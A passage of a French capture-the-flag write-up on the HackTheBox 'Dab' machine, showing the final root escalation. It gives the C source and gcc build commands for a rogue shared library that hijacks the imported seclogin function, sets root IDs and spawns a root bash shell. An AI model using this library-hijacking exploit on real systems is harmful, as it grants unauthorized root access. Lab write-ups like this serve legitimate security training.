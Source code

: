 Ce binaire demande un mot de passe avant de faire appel à la fonction importée *seclogin*. C'est très simple de le retrouver dans le code.  

D'après la valeur des registres on devine que le prototype de cette fonction ne prend aucun argument.  

![HackTheBox Dab CTF myexec binary](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/dab/dab_myexec.png)

L'exploitation est en tout point similaire à un scénario du type LD\_PRELOAD :  

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

// gcc -Wall -fPIC -c -o seclogin.o seclogin.c
// gcc -shared -fPIC -Wl,-soname -Wl,libseclogin.so -o libseclogin.so seclogin.o
void seclogin(void)
{
        setreuid(0, 0);
        setregid(0, 0);
        system("/bin/bash");
        return 0;
}
```

On compile, on place la librairie dans */tmp*, on exécute *myexec*, on rentre le mot de passe attendu et à nous le shell root et le flag final :)  

![HackTheBox Dab CTF  final exploit](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/dab/dab_root.png)

Outro
-----

Un write-up comme une recette de *Savoie* : beaucoup de patates et du fromage par dessus :D

*Published February 02 2019 at 16:42*
